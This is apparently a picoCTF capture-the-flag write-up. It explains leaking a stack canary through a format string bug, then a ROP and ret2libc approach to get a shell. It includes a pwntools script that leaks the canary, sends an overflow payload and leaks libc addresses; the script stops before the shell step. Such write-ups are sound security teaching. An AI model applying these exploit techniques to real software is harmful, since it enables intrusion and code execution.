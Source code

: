 I leaked the canary with the string formatting vuln.  The stack is constant sized so I just searched for the canary in GDB and then counted the distance I needed to read with the string formatting attack.  The canary is constant between program executions so once I have the canary I can just ROP back into the vulnerable function and then do my ret2libc exploit.  

In theory you could leak the libc version based on the location of a symbol using something like [libc database search](https://libc.blukat.me/) but you could also just guess and be lucky.  Libc 2.27 is the version of libc used on Ubuntu 18.04 and thus very frequently the libc version used on CTF servers.  Once you know the offset of some function in libc you can subtract the offset of that function (I used rand) in the libc version on the server to get the address of the base of the libc.  Once you have the base of libc you can determine the address of any function inside libc by adding the offset of that function to your calculate base.  Once you can do this there is nothing stopping you from calling system("/bin/sh") and getting a shell.  

```python
from pwn import *
import re
context.terminal = ["termite","-e"]

elf = ELF("./vuln")

# p = elf.debug()
# p = elf.process()
p = remote("jupiter.challenges.picoctf.org", 15815)
p.recvuntil("guess?")

NUMBER = "-31"


WIN_EIP_OFFSET = 720

WIN_CANARY_OFFSET = 320



def leak_canary():
	p.sendline(NUMBER)

	p.recvuntil("Name?")
	p.sendline("%135$x")
	resp = p.recvline().decode()
	p.recvuntil("guess?")
	return int(re.search("Congrats: ([0-9a-fA-F]{8})", resp).group(1),16)

canary = leak_canary()
def send_rop(rop):
	p.recvuntil("Name?")
	payload = b"A" * 512 + p32(canary) + b"A" * 12 + rop
	p.sendline(payload)

def leak_symbol(sym):
	rop = ROP(elf)
	rop.puts(elf.symbols[sym])
	rop.win()
	send_rop(rop.chain())
	p.recvline()
	p.recvline()
	res = p.recvline()
	p.recvline()
	return u32(res[0:4])
p.sendline(NUMBER)
rand_sym = leak_symbol('rand')


# libc 2.32
```